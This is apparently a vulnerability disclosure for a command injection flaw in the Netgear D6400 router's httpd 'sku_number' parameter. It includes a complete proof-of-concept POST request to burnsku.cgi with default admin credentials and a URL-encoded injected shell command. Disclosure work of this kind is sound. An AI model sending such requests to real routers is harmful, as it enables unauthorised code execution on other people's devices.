 In the http binary file of the netgearD6400 router, a command injection vulnerability was discovered in the function "sku_number" of sub_415F04
![](Pasted%20image%2020250723061215.png)

Searching for the keyword reveals that the parameter is in burnsku.htm. Construct the data request package through burp.

```bash
POST /burnsku.cgi?id=2091189675 HTTP/1.1
Host: 192.168.0.1
Content-Length: 100
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/burnsku.htm
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

sku_number=0;%65%63%68%6f%20%31%32%33%34%35%20%3e%20%2f%74%6d%70%2f%31%31%31%2e%74%78%74&Apply=Apply
```
![](WX20250723-061057@2x.png)
